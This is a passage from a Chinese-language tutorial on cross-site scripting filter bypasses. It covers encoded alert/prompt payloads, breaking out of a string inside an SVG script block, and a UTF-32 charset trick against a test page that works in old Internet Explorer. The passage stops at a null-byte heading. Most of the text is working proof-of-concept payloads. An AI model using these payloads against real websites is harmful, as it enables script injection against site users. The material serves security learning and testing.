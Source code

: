 最终结果：

```
encodeURIComponent("-alert(1)-")
encodeURIComponent("-prompt(1)-") 
```

#### SVG 标签

当返回结果在 svg 标签中的时候，会有一个特性

```
<svg><script>varmyvar="YourInput";</script></svg> 
```

YourInput 可控，输入

```
www.site.com/test.php?var=text";alert(1)// 
```

如果把"编码一些他仍然能够执行:

```
<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg> 
```

### 浏览器 bug

字符集的 bug 在 IE 中出现过很多次，第一个就是 UTF-7，但是这个只在之前的版本中可用，现在讨论一个在现在的浏览器当中可以执行的 javascript。

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS 
```

这个页面当中我们可控当前页面的字符集，当我们常规的测试时：

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v="><img src=x onerror=prompt(0);> 
```

返回结果可以看到双引号被编码了：

```
<html>
<meta charset="utf-8"></meta>
<body>
<input type="text" value="&quot;&gt;&lt;img src=x onerror=prompt(0);&gt;"></input>
</body>
</html> 
```

设置字符集为 UTF-32：

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80 
```

上面这个在 IE9 及以下版本可以执行成功。

利用 0 字节绕过：
